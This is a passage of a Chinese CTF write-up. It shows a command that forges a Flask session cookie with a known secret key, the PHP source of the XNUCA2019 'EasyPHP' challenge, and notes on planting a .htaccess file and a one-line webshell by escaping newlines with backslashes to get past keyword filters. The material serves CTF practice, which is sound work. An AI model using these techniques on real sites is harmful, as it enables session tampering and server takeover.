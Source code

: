 进行flasksession伪造

```
python3 flask_session_cookie_manager3.py encode -s 'p0vFa0N5J6kEqjCxefMIEzeSwBf4USyyM3HIANUv' -t '{"balance":10000, "purchases":[]}'
```

## [XNUCA2019Qualifier]EasyPHP

源码

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

.htaccess写入,还有一句话木马后面的\

上文提到用\来转义换行符来绕过最后加一行的限制

所以同理也可以用\来绕过stristr处的所有限制
